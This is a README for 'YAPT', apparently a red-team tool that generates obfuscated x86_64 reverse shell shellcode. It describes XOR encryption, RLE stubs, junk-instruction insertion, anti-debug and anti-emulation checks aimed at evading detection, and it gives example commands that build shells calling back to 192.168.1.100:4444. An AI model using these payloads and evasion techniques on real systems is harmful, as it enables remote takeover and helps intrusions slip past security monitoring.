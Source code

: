 # YAPT: yet another payload tool #

This Python script is a x86_64 reverse shell shellcode generator that builds highly obfuscated payloads using several evasion techniques. Here’s an overview of its main components and functionality:

Key Functionalities
Assembly Code Handling:
The script uses pwntools to assemble custom assembly snippets. A helper function removes comments from assembly strings before assembling them, ensuring clean code generation.

Encryption & Encoding Options:
It offers simple byte-wise XOR encryption and a rolling XOR variant. Additionally, there’s an option to apply Run-Length Encoding (RLE) to the payload. When RLE is enabled, a self-decoding stub is generated to decompress the payload at runtime.

Polymorphic Junk Insertion:
To further obfuscate the payload, the script can prepend random “junk” assembly instructions that have no functional effect but help evade signature-based detections.

Anti-Debug and Anti-Emulation:
Optional code blocks perform anti-debugging checks (using the ptrace system call) and anti-emulation techniques (using timing checks with rdtsc and cpuid instructions).

Reverse Shell Payload:
The core functionality sets up a TCP socket to a given IP and port, redirects standard I/O (stdin, stdout, stderr) using dup2, and then executes a specified executable (default is /bin/sh) via an execve system call.

Additional Obfuscation:
The script includes options for obfuscating the executable path in memory (via XOR) and for using indirect system calls through a “syscall gadget”, which further complicates static analysis.

Workflow Summary
Argument Parsing:
The script uses argparse to accept parameters for the attacker's IP, port, the executable path, and various flags to enable or disable obfuscation features.

Payload Generation:
Based on the provided flags, it builds an assembly payload that includes the reverse shell logic along with optional anti-debug/anti-emulation, stack pivoting, and junk insertion.

Optional Encoding & Encryption:
After generating the core payload, it may be further processed using RLE encoding and/or XOR-based encryption, depending on the user’s choices.

Output:
The final shellcode is printed in a format suitable for embedding in C or Python code.

This script is designed for scenarios where evasion from detection is critical, combining multiple layers of obfuscation and anti-analysis techniques into one payload generation process.

## Installing ##
```
git clone https://github.com/daedalus/yapt/
virtualenv venv
source venv/bin/activate
cd yapt
python setup.py install
```
## Running ##
Basic reverse shell:

`yapt --ip 192.168.1.100 --port 4444`

Obfuscated version with multiple techniques:

`yapt --ip 192.168.1.100 --port 4444 --junk --obfuscate-path --anti-debug --rle --xor-key 0xAA`

## License ##

MIT
